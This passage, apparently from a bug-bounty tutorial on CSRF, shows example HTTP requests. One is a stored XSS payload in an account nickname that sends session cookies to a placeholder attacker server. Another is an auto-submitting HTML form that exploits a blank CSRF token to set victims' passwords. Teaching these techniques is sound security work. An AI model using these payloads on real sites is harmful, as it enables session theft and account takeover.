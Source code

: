 But this request, with no token at all, would succeed:

```jsx
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```

This request will change the user’s account nickname and store the XSS payload there. The next time a user logs into the account and views their dashboard, they’ll trigger the `XSS`.

---

### Take Over User Accounts by Using CSRF

Sometimes CSRF lead to account takeover but this uncommon cuz it must be in criticla function like change password, email, phone number.

For example: [example.com](http://example.com) allow their users to sign up via their social media accounts 

If a user chooses this option, they’re not required to create a password, as they can simply log in via their linked account.

The request will be like that:

```jsx
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

Since the user signed up via their social media account, they don’t need to provide an old password to set the new password, so if CSRF protection
fails on this endpoint, an attacker would have the ability to set a password for anyone who signed up via their social media account and hasn’t yet done so.

Lets say this is the request for setting the password for the first time and the website dosen’t validate the blank csrf-token:

```jsx
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=
```

Now all an attacker has to do is to post a link to this HTML page on pages frequented by users of the site, and they can automatically assign the password of any user who visits the malicious page:

```jsx
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
<input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
